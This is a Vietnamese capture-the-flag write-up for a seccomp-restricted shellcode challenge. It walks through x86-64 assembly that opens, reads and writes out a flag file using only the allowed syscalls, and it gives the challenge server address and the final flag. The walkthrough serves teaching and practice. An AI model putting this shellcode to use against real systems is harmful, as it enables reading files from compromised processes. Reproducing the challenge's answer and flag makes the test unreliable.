 # ⛳ Shellcode

- Description: dễ mà tự viết đi trên trên mạng không có đâu
  - Bắt buộc dùng open, read, write để đọc flag
  - Không cần quan tâm đến seccomp
  - Dùng syscall ngoài open, read, write sẽ bị khóa
  - nc 45.122.249.68 10017
- Hint:
  - Bạn Nhật Trường có một bài blog tương tự bài này trên x86, thử chuyển code sang x86-64 bạn sẽ giải được bài này link: https://drx.home.blog/2019/04/03/pwnable-tw-orw/

## Write-up:

Disassemble hàm main, ở đây ta thấy có hàm **setup_seccomp** sau khi chúng ta input bằng hàm **read@plt**.

```
0x000000000000132f <+122>:   call   0x10f0 <read@plt>
0x0000000000001334 <+127>:   mov    eax,0x0
0x0000000000001339 <+132>:   call   0x1209 <setup_seccomp>
```

Vào xem thử hàm **setup_seccomp** làm gì trên IDA.

![image](https://user-images.githubusercontent.com/48288606/147545255-85432ebe-de11-4b03-99ee-5edfab194115.png)

Theo như đoạn mã giả và tìm kiếm về seccomp (secure computing mode) thì **setup_seccomp** chỉ là một hàm định nghĩa các rule để giới hạn lại và quy định các **system call**. Đại khái, chương trình thực hiện khởi tạo seccomp rule bằng **seccomp_init()**, thêm rule bởi hàm **seccomp_rule_add()** và ta thấy có 3 dòng để set rule cho 3 system call là "read/ write/ open" và dùng **seccomp_load()** để apply các rule vào kernel.<br>
=> Vậy cho nên theo như hint thì thật ra chúng ta không cần xem đoạn này, hint đã gợi ý chỉ được dùng **open, read, write** trong shellcode để đọc flag.

Khi chạy chương trình ta biết được flag nằm trong file "PhaPhaKhongCoDon.txt"
```
Use open, read, write to get flag, flag is in PhaPhaKhongCoDon.txt
```
### Viết shellcode:

Với 3 system call trên, ta dự định sẽ thực hiện lần lượt: open(mở stream đọc file) -> read(đọc dữ liệu từ stream cho trước và đưa vào buffer) -> write(ghi dữ liệu từ buffer ra output stream). Bây giờ ta sẽ xác định các parameter đưa đúng theo quy ước gọi syscall [tại đây](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) (Table x86_64 (64-bit))

Khởi tạo stack, lưu ý trên x86_64 không push trực tiếp một giá trị hằng vào stack được nên phải thông qua thanh ghi

Code:
```
        'mov r8, %s' % hex(u64('.txt\0\0\0\0')),
        'mov r9, %s' % hex(u64('ongCoDon')),
        'mov r10, %s' % hex(u64('PhaPhaKh')),
        'push r8',
        'push r9', 
        'push r10', 
```

Lệnh open() - [Official manual](https://man7.org/linux/man-pages/man2/open.2.html):
- %rax: 0x02
- arg0 (%rdi): const char \*filename .Ở đây mình sẽ đưa chuỗi "PhaPhaKhongCoDon.txt" vào và vì kiến trúc 64bits nên size tối đa là 8 bytes, còn thiếu thì đệm thêm byte NULL vào chuỗi để không ảnh hưởng quá trình gọi syscall
- arg1 (%rsi): int flags. Chế độ cho stream open. Được định nghĩa trong file `/usr/include/asm-generic/fcntl.h` vì hàm **open()** được tạo trong thư viện **fcntl.h**. Mình có thể search để biết các giá trị này nhanh hơn. Do ban đầu đọc manual mình không rõ cách truyền vào mấy flags này nên mới đào sâu vậy 😊. Ở đây mình chỉ đọc (O_RDONLY) nên dùng **0x0**.
```
#define O_ACCMODE       00000003
#define O_RDONLY        00000000
#define O_WRONLY        00000001
#define O_RDWR          00000002
```

Code:
```
        'xor rdx, rdx',
        'xor rsi, rsi',
        'mov rdi, rsp',
        'mov rax, 0x2',
        'syscall',
```

- arg2 (%rdx): umode_t mode. (Định nghĩa permission cho file). Ta dùng **0x0** 
- Return value: trả về file descriptor lưu trong rax.

Lệnh read() - [Official manual](https://man7.org/linux/man-pages/man2/read.2.html). Tương tự:
- %rax: 0x00
- arg0 (%rdi): unsigned int fd. Đưa file descriptor từ stream open ở trên vào. 
- arg1 (%rsi): char \*buf. Nhét chuỗi trên vào
- arg2 (%rdx): size_t count. Size của buffer để đọc, cho tùy ý miễn đủ đọc flag.
- Return value: Số lượng byte được đọc thật sự được trả về

Code:
```
        'mov rsi, rsp',
        'mov rdi, rax',  
        'mov rdx, 0x100',
        'mov rax, 0x0',  
        'syscall',
```
Lệnh write() - [Official manual](https://man7.org/linux/man-pages/man2/write.2.html). Tương tự:
- %rax: 0x01
- arg0 (%rdi): unsigned int fd. File descriptor đưa ra ngoài output nên phải dùng stream của STDOUT là **0x1**
- arg1 (%rsi): const char \*buf. Tham số này không quan trọng vì ta đã xác định đưa chuỗi ký tự cần ghi ra ngoài STDOUT stream rồi
- arg2 (%rdx): size_t count

Code:
```
        'mov rdi, 0x1',
        'mov rdx, rax',
        'mov rax, 0x1',
        'syscall'
```

Tham khảo code exploit hoàn chỉnh [tại đây](shellcode.py)

Thử với file test:

![image](https://user-images.githubusercontent.com/48288606/147572328-b512c441-0c4d-43dd-908b-2665abc2bdad.png)


Flag: **Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**
